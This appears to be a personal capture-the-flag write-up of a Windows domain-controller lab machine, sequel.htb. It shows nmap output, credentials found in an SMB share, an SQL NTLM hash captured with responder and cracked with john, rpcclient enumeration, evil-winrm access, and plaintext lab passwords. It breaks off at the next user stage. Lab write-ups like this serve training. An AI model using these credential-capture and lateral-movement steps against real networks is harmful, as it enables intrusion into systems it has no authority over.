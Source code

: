 # NMAP

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 13:27 CST
Nmap scan report for 10.10.11.202
Host is up (0.0088s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-26 03:27:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-26T03:29:01+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-01-26T03:29:00+00:00; +8h00m00s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-26T03:14:18
|_Not valid after:  2055-01-26T03:14:18
|_ssl-date: 2025-01-26T03:29:01+00:00; +8h00m01s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-26T03:29:01+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-26T03:28:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

# SMB

Found an SMB Share called public and found a PDF inside

The PDF has username and password for a public user

`PublicUser : GuestUserCantWrite1`

Tried to steal the SQL server's hash by making it auth against responder [SQL NTLM Hash](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)

Found a hash on responder, used john to crack it

```
john --wordlist=rockyou.txt hash
```

Found password for the sql_svc account:

`REGGIE1234ronnie (sql_svc) `

## RPC Client

Used rpcclient to get info using this user:

```
rpcclient $> enumdomains
name:[sequel] idx:[0x0]
name:[Builtin] idx:[0x0]
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Tom.Henn] rid:[0x44f]
user:[Brandon.Brown] rid:[0x450]
user:[Ryan.Cooper] rid:[0x451]
user:[sql_svc] rid:[0x452]
user:[James.Roberts] rid:[0x453]
user:[Nicole.Thompson] rid:[0x454]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> getusername
Account Name: sql_svc, Authority Name: sequel
rpcclient $> 
```

Used [[exploit-notes/windows/protocol/winrm-pentesting|evil-winrm]] to connect as sql_svc

## Low-level user: SQL_SVC

Found SQL Errors log file which had a failed login by Ryan.Cooper

Also had a failed login by NuclearMosquito3

Turns out that's the username password combo for sequel.htb\/Ryan.Cooper :

`Ryan.Cooper : NuclearMosquito3`

Used evilwinrm again

## Low-Level user: Ryan.Cooper

